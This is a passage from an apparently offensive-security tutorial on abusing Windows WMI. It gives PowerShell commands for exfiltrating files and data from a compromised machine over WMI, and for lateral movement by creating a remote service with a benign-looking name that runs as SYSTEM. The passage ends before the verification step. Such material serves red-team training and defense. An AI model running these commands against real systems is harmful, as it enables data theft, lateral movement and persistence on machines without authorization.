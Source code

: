 Using WMI as a communication channel:

```powershell
# Send-InfoWMI.ps1
# Send data/files from a compromised machine (needs local admin rights)
. .\Send-InfoWMI.ps1
Send-InfoWMI -FileToSend "c:\data.txt" -ComputerName "COMPUTER01" -Username "Administrator"
Send-InfoWMI -DataToSend (Get-Process) -ComputerName "COMPUTER01" -Username "Administrator"

# Get-InfoWMI.ps1
# Receive data/files on the local machine
. .\Get-InfoWMI.ps1
Get-InfoWMI
Get-InfoWMI -OutputFile "c:\data.txt"
```

### Lateral Movement - Command Execution - Win32_Service

It is possible to create a service on a remote machine using WMI to execute commands and scripts. This also allows persistence capabilities, but it is more noisy than simply starting a process.

Create a service
```powershell
$ServiceType = [byte] 16
$ErrorControl = [byte] 1
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $False,"Windows Performance",$ErrorControl,$null,$null,"WinPerf","c:\Windows\System32\calc.exe",$null,$ServiceType,"Manual","NT AUTHORITY\SYSTEM",""
```

| Argument | Description |
| --- | --- |
| $False | DesktopInteract |
| "Windows Performance" | DisplayName |
| $ErrorControl | User is notified |
| $null | LoadOrderGroup |
| $null | LoadOrderGroupDependencies |
| "WinPerf" | Name |
| "c:\Windows\System32\calc.exe" | PathName |
| $null | ServiceDependencies |
| $ServiceType | OwnProcess |
| "Manual" | StartMode |
| "NT AUTHORITY\SYSTEM" | StartName |
| "" | StartPassword |

Check if the service has been correctly created:
